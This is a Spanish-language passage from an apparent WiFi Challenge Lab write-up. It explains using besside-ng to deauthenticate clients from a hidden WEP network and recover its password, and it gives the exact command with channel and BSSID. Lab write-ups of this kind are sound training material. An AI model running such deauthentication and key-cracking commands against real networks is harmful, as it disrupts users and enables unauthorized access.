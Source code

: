 ![](/assets/images/wifi-challenge-lab/wep2.png)

Como conocemos la dirección **MAC** de la red oculta vamos a usar `Besside-ng` para poder realizar el ataque y obtener la contraseña, ademas hace un ataque de deautenticacion para expulsar a los clientes 

La red oculta se encuentra en el canal **1** y tenemos su dirección **MAC**

```bash
❯ besside-ng -c 1 -b F0:9F:C2:71:22:11 wlan1 -v
```

![](/assets/images/wifi-challenge-lab/wep3.png)
